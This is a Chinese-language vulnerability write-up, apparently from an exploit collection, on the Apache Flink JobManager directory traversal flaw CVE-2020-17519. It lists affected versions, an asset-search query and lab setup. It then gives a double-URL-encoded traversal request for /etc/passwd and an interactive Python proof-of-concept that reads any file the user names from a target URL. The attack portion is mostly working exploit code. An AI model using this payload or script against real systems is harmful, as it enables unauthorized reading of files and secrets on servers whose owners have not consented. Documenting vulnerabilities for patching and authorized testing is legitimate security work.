

# Apache Flink 目录遍历漏洞 CVE-2020-17519

## 漏洞描述

2021 年 01 月 06 日，360CERT 监测发现 `Apache Flink` 发布了 `Apache Flink 目录穿越漏洞` 的风险通告，漏洞编号为 `CVE-2020-17518,CVE-2020-17519`，漏洞等级：`高危`，漏洞评分：`8.5`。

远程攻击者通过 `REST API` 目录遍历，可造成 `文件读取/写入` 的影响。

Apache Flink 1.11.0 中引入的一项更改（也在 1.11.1 和 1.11.2 中发布）允许攻击者通过 JobManager 进程的 REST 接口读取 JobManager 本地文件系统上的任何文件。

参考：

- https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801
- https://nvd.nist.gov/vuln/detail/CVE-2020-17519

## 漏洞影响

```
Apache Flink 1.11.0
Apache Flink 1.11.1
Apache Flink 1.11.2
```

## 网络测绘

```
app="Apache Flink"
```

## 环境搭建

Vulhub 执行以下命令启动 Apache Flink jobmanager 1.11.2：

```
docker-compose up -d
```

Apache Flink 启动后，访问 `http://your-ip:8081` 查看主页。



## 漏洞复现

查看/etc/passwd：

```plain
http://xxx.xxx.xxx.xxx/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```


## 漏洞 POC

```python
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Apache Flink   1.11.0-1.11.2                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-17519.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_name):
    file_name = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "root" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 /etc/passwd ，响应为:\n{}\033[0m".format(target_url, response.text))
        else :
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, file_name):
    file_name_re = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name_re)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "error" not in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 {} ，响应为:\n{}\033[0m".format(target_url, file_name, response.text))
        else :
            print("\033[31m[x] 目标文件{}读取失败\033[0m".format(file_name))

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    file_name = "/etc/passwd"
    POC_1(target_url, file_name)

    while True:
        file_name = input("\033[35mFile >>> \033[0m")
        if file_name == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, file_name)
```


